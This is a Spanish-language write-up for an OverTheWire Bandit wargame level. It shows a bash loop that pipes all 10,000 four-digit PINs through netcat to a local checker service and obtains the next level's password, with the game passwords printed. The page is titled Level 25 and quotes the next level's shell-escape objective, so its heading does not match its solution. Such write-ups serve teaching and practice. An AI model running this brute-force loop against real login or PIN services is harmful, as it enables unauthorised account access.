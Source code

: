 # Level 25

## Objetivos
Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not **/bin/bash**, but something else. Find out what it is, how it works and how to break out of it.

## Datos de acceso 
bandit24 <-UserName
 VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar<-Password

## Solución 
```bash
bandit24@bandit:~$ nc localhost 30002 <<< VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 1
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Fail! You did not supply enough data. Try again.
^C
bandit24@bandit:~$ for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002

I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.

...

Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.


```

ó

```bash
bandit24@bandit:~$ for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002 | grep -v Wrong
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
bandit24@bandit:~$
```
## Notas dicionales 
Podemos hacer una secuencia de esta forma {0000..9999} no imprimira números de cuatro digitos podemos realizar un for haciendo con esa secuancia y el comando "nc localhost 30002" 

podemos agregar al final  el comando "grep -v Wrong" para que nos filtre las respuestas incorrectas y quedarnos solo con el password